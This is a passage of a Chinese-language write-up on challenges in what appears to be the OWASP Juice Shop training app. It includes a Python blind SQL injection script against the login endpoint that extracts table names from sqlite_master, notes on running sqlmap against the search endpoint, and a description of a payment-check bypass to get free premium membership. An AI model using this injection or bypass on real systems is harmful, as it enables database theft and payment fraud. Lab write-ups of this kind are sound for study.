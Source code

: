 ```python
		data  = {"email":"' or length((select name from sqlite_master where type='table' limit %s,1)) = %i -- " %(t,i),"password":"123456"} 
		# print(data)
		r = requests.post('http://xx.xx.xx.1:3000//rest/user/login', data = data)
		if len(r.text) > 300:
			print(i)
			continue
	q = i
	for l in range(1,q+1):
		for p in payload1:
			data = {"email":"' or substr((select name from sqlite_master where type='table' limit %s,1),%s,1)= '%s' -- " %(t,l,p),"password":"123456"} 
			r = requests.post('http://xx.xx.xx.1:3000//rest/user/login', data = data)
			if len(r.text) > 300:
				tt = tt + p
				print(tt)
				continue
```

![image-20200920145716973](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200920145716973.png)

依旧是慢的很，而且并不会跳杯，那么说明这个题目应该还有其他的注入点。搜索框？直接拿sqlmap跑跑看，这里有个问题链接中有个#号，会导致sqlmap识别不出来注入点。但是把这个符号给删除掉，好像也会出现问题。。。后来抓包发现这个请求是这样的/rest/products/search?q=juice。使用sqlmap依旧是跑不出来，因为sqlmap并没有把服务器返回的500错误加入判断，所以有问题。

![image-20200920153011264](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200920153011264.png)

这里需要注意，直接改包路面的参数是不行的，需要把空格使用%20代替掉，或者去params改参数。

![image-20200920154426218](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200920154426218.png)

sqlite_master表是SQLite的系统表。该表记录该数据库中保存的表、索引、视图、和触发器信息。每一行记录一个项目。在创建一个SQLIte数据库的时候，该表会自动创建。sqlite_master表包含5列。

 

type列记录了项目的类型，如table、index、view、trigger。

name列记录了项目的名称，如表名、索引名等。

tbl_name列记录所从属的表名，如索引所在的表名。对于表来说，该列就是表名本身。

rootpage列记录项目在数据库页中存储的编号。对于视图和触发器，该列值为0或者NULL。

sql列记录创建该项目的SQL语句。

这里需要读取sql这列的值即可成功跳杯。



### Deluxe Fraud

无需付费的高级会员资格

进入高级会员页面，开始跟踪流程，发现随便添加张卡就成为了高级会员，但是并没有跳杯。观察后发现是通过这种方式进行判断支付的，因为这里并没有什么其他的校检，所以尝试随便输入其他的就可以跳杯了。

![image-20200920162609980](https://a111-1255560786.cos.ap-nanjing.myqcloud.com/image-20200920162609980.png)
